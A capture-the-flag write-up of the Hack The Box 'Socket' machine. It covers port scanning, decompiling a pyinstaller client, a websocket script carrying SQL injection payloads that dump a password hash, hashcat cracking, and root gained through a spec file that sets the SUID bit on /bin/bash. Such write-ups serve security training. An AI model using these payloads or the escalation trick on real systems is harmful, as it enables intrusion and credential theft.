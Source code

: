 ```yaml
---
title: "Hack The Box - Socket [Medium]"
category: ctf-writeup
layout: post
---
```


So let's start with a rustscan of the machine

```bash
Open 10.10.11.206:22
Open 10.10.11.206:80
Open 10.10.11.206:5789
[~] Starting Script(s)
[~] Starting Nmap 7.93 ( https://nmap.org ) at 2023-04-21 14:37 EEST
Initiating Ping Scan at 14:37
Scanning 10.10.11.206 [2 ports]
Completed Ping Scan at 14:37, 0.05s elapsed (1 total hosts)
Initiating Connect Scan at 14:37
Scanning qreader.htb (10.10.11.206) [3 ports]
Discovered open port 22/tcp on 10.10.11.206
Discovered open port 80/tcp on 10.10.11.206
Discovered open port 5789/tcp on 10.10.11.206
Completed Connect Scan at 14:37, 0.05s elapsed (3 total ports)
Nmap scan report for qreader.htb (10.10.11.206)
Host is up, received syn-ack (0.050s latency).
Scanned at 2023-04-21 14:37:19 EEST for 0s

PORT     STATE SERVICE REASON
22/tcp   open  ssh     syn-ack
80/tcp   open  http    syn-ack
5789/tcp open  unknown syn-ack

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 0.12 seconds
```

I went to port 80 to check what is there, the idea of the website is to create QR Codes and extract text out of QR Codes, first I thought that maybe there is something with the QR codes but after some examination I decided to give up on that path and I went over the other things such as the Linux/Windows application.

Upon further discovery using `strings` over the linux binary, I realized that this a packaged exectuable that was created with `pyinstaller` so I've tried to unpack it with `uncompyle6` and then the `pyc` files with `pycdc`. 

I found out the following things from the source code of `qreader`:

```python
...
VERSION = '0.0.2'
ws_host = 'ws://ws.qreader.htb:5789'
...
def version(self):
        response = asyncio.run(ws_connect(ws_host + '/version', json.dumps({
            'version': VERSION })))
        data = json.loads(response)
        if 'error' not in data.keys():
            version_info = data['message']
            msg = f'''[INFO] You have version {version_info['version']} which was released on {version_info['released_date']}'''
            self.statusBar().showMessage(msg)
            return None
        error = None['error']
        self.statusBar().showMessage(error)

def update(self):
	response = asyncio.run(ws_connect(ws_host + '/update', json.dumps({
		'version': VERSION })))
	data = json.loads(response)
	if 'error' not in data.keys():
		msg = '[INFO] ' + data['message']
		self.statusBar().showMessage(msg)
		return None
	error = None['error']
	self.statusBar().showMessage(error)
```

This source code tries to connect to a websocket to get its version/update, so the paths for the websockets are:

```
ws://ws.qreader.htb:5789/update
ws://ws.qreader.htb:5789/version
```

I've tested both of these with `claws` tool. Then I crafted a python script to connect with the socket. 

> **_WARNING:_** Be really careful which quotes you are using, `'` or `"` because that could interfere with the SQLi that I found in the `version` path!

```python
from websockets.sync.client import connect
import json

with connect("ws://ws.qreader.htb:5789/version") as websocket:
    websocket.send(json.dumps({'version': '0.0.3" UNION SELECT group_concat(answer),2,3,4 from answers-- -'}))
    m = websocket.recv()
    print(m)
```

With this script, I've enumerated the tables, columns and the username with the following payloads:

```SQL
'0.0.3" UNION SELECT group_concat(answer),2,3,4 from answers-- -' -> This finds the user Thomas Keller
'0.0.3" UNION SELECT group_concat(password),2,3,4 from users-- -' -> This find the password hash
```

Cracking the password

```bash
$ hashcat -m 0 -a 0 0c090c365fa0559b151a43e0fea39710 ~/tools/rockyou.txt
<PASSWORD>
```

Getting the username with [adusergen](https://github.com/syrull/hacks/tree/main/adusergen)

```bash
$ echo -n "Thomas Keller" | adusergen

Thomas.Keller
ThomasKeller
KellerThomas
Keller.Thomas
Tkeller
T.keller
Thomas-Keller
T.keller
thomas.keller
thomaskeller
kellerthomas
keller.thomas
		tkeller <--- Right One
t.keller
thomas-keller
t.keller
```

# Root

The root was fairly easy, you just have to read the documentation for spec files for `pyinstaller`, after that I crafted the following spec file:

```python
block_cipher = __import__('os').system('chmod +s /bin/bash')
```

```bash
tkeller@socket:~$ sudo /usr/local/sbin/build-installer.sh build priv.spec
105 INFO: PyInstaller: 5.6.2
105 INFO: Python: 3.10.6
107 INFO: Platform: Linux-5.15.0-67-generic-x86_64-with-glibc2.35
110 INFO: UPX is not available.
script '/home/tkeller/minimal.py' not found
tkeller@socket:~$ /bin/bash -p
bash-5.1# whoami
root
bash-5.1# cat /root/root.txt 
<HASH>
```
